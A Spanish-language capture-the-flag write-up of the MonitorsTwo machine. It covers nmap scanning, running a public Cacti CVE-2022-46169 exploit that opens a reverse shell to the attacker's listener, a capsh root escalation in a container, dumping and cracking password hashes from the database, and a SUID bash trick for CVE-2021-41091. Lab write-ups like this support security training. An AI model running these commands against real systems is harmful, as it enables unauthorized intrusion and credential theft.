








# Initial Recon

Comprobamos la conexión con la máquina víctima:

```bash
> ping -c 1 10.10.11.211 
PING 10.10.11.211 (10.10.11.211) 56(84) bytes of data.
64 bytes from 10.10.11.211: icmp_seq=1 ttl=63 time=264 ms

--- 10.10.11.211 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 263.775/263.775/263.775/0.000 ms
```

Ejecutamos nuestro escaneo con nmap:

```bash
> nmap -sS -p- --open --min-rate 2000 -Pn -n 10.10.11.211 -oG scan
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-02 22:35 AST
Nmap scan report for 10.10.11.211
Host is up (0.088s latency).
Not shown: 61122 closed tcp ports (reset), 4411 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 37.45 seconds
```

```bash
> nmap -p22,80 -sVC 10.10.11.211                                  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-02 22:37 AST
Nmap scan report for 10.10.11.211 (10.10.11.211)
Host is up (0.077s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.67 seconds
```

# Web



Escaneé el sistema para la etapa de enumeración con nmap, dirb, traceroute, view page source, etc. pero nada útil. Después de comprobar el directorio donde dirb encontró el punto final /document, pasar algún tiempo en él, pero nada cambia, a continuación, iniciar la comprobación de las vulnerabilidades de la interfaz web de cactus y aquí vamos.
Cacti CVE

https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22



Después de ver la forma correcta de utilizar el exploit, lo ejecutamos.

Escuchamos en el puerto 443:

```bash
nc -nlvp 443
```

```bash
> python3 CVE-2022-46169.py  -u http://10.10.11.211 --LHOST=10.10.14.29 --LPORT=443 
Checking...
The target is vulnerable. Exploiting...
Bruteforcing the host_id and local_data_ids
Bruteforce Success!!
```



## LinEnum

Ahora vamos a ver posibles formas de elevar privilegios, usaremos LinEnum para tener más información.

En nuestro resultado encontramos esto:



Aprovechamos para elevar nuestro privilegio.
Binario capsh

Lo ejecutamos dentro del directorio /sbin/:

```bash
./capsh --gid=0 --uid=0 --
```

here you have more information about this –> capsh



Parece que estamos en un contenedor docker, así que vamos a intentar ver el contenido de una base de datos que encontramos antes:

## Run Mysql to find credentials

```bash
mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth"
```



En el usuario marcus tenemos un hash, usaremos john para ver cual es.
Cracking Password con john

Lo guardamos en un archivo h.txt y lo ejecutamos:

```bash
john h.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



## SSH Conect

Nos conectamos a través de SSH

```bash
ssh marcus@10.10.11.211
```

# Privilege Escalation

Tras ejecutar LinEnum de nuevo, vemos que la máquina aloja un docker:

```bash
marcus@monitorstwo:~$ docker --version
Docker version 20.10.5+dfsg1, build 55c4c88
```

## CVE-2021-41091

Después de buscar en Internet hemos encontrado un exploit. CVE-2021-41091

Pasamos el exploit a nuestra máquina víctima.

Vamos al contenedor docker que previamente teníamos como root:

```bash
cd /bin
```

Asignamos estos permisos a bash.

```bash
chmod u+s /bin/bash
```

Ahora ejecutamos el exploit en la máquina víctima.



Entramos en la ruta indicada por el exploit y lo ejecutamos:

```bash
./bin/bash -p
```